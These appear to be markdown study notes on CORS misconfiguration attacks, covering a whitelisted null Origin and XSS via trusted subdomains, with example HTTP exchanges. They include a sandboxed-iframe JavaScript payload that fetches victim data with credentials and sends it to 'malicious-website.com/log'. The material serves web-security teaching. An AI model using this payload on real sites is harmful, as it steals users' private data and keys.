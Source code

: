 ## Whitelisted null origin value

- specification for the origin header supports the value null
- browsers might send the value null in the origin header in various unusual situations

  - cross-origin redirects
  - requests from serialized data
  - request using the file: protocol
  - sandboxed cross-origin requests

- some applications whitelist the null origin to support local development of the application
- eg

```
GET /sensitive-victim-data
Host: vulnerable-website.com
Origin: null
=============
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

- attacker can use tricks to generate a cross-origin request containing the value null in the Origin header by

```html
<iframe
  sandbox="allow-scripts allow-top-navigation allow-forms"
  src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
</script>"
></iframe>
```

## Exploiting XSS via CORS trust relationships

- if a website trusts an origin that is vulnerable to XSS, an attacker could exploit the XSS to inject some JS that use CORS to retrieve sensitive information from the site that trusts the vulnerable application

```
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: https://subdomain.vulnerable-website.com
Cookie: sessionid=...
==============
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```
